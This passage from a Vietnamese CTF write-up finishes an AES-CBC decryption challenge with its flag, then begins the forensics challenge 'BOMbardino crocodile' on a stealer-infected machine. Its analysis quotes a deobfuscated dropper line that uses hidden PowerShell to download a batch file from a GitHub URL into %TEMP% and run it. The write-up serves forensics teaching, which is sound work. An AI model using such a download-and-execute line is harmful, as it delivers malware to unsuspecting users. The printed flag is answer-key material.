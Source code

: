 ```powershell``` này cũng mã hóa nội dung của ```flag.enc``` bằng ```AES-CBC``` viết 1 đoạn ```python``` giải mã
pad_len = plaintext[-1]
plaintext = plaintext[:-pad_len]

print(plaintext.decode('utf-8'))

```
```
flag: L3AK{d3let3d_but_n0t_f0rg0tt3n}
```



## BOMbardino crocodile
>APT Lobster has successfully breached a machine in our network, marking their first confirmed intrusion. Fortunately, the DFIR team acted quickly, isolating the compromised system and collecting several suspicious files for analysis. Among the evidence, they also recovered an outbound email sent by the attacker just before containment, I wonder who was he communicating with...The flag consists of 2 parts.

Chúng tôi được cung cấp một tệp email và ảnh chụp nhanh ổ đĩa C. Email chứa liên kết mời đến ```LobsterLeaks```máy chủ, nơi thu thập tất cả dữ liệu đã thu thập được từ kẻ đánh cắp thông tin

![image](/assets/data/l3akctf-4.png)

Sau khi tham gia máy chủ tôi nhận được một tệp mã hóa ```pay2winflag.jpg.enc``` và tệp ```passwords.zip``` nhưng trống
![image](/assets/data/l3akctf-5.png)

Đối với ổ địa C thư mục download của crustacean chứa một số tệp thú vị

![image](/assets/data/l3akctf-6.png)


```lil-l3ak-exam.pdf``` chứa một đường dẫn tải xuống tệp ```Lil L3ak secret plans for tonight.bat```, giờ chúng ta cùng phân tích tệp này

1. ***Lil L3ak secret plans for tonight.bat***

Nếu chũng ta mở tệp bằng trình soạn thảo ```hex``` ta thấy tệp bị mã hóa dưới dạng ký tự tiếng Trung do có ```FF FE``` Dấu thứ tự byte (BOM) ở đầu tệp. Điều này khiến trình soạn thảo văn bản hiểu tệp là UTF-16LEtệp đã được mã hóa

![image](/assets/data/l3akctf-7.png)

Sau khi loại bỏ BOM và ```echo``` các lệnh không sử dụng, chúng ta sẽ có một tập lệnh giai đoạn đầu có thể đọc được. Tập lệnh này sẽ tải xuống một tệp giai đoạn hai được lưu trữ trên GitHub (hiện không thể truy cập được), vì vậy chúng ta cần tìm tệp batch đã tải xuống trong thư mục Temp

```
start /min cmd /c "powershell -WindowStyle Hidden -Command Invoke-WebRequest -Uri 'https://github.com/bluecrustacean/oceanman/raw/main/t1-l3ak.bat' -OutFile '%TEMP%\temp.bat'; Start-Process -FilePath '%TEMP%\temp.bat' -WindowStyle Hidden"
```

2. ***temp.bat***

Tệp ```temp.bat``` cũng được làm tối nghĩa tương tự bằng kỹ thuật BOM. Sau khi dọn dẹp, chúng ta sẽ có được tập lệnh giai đoạn hai

```
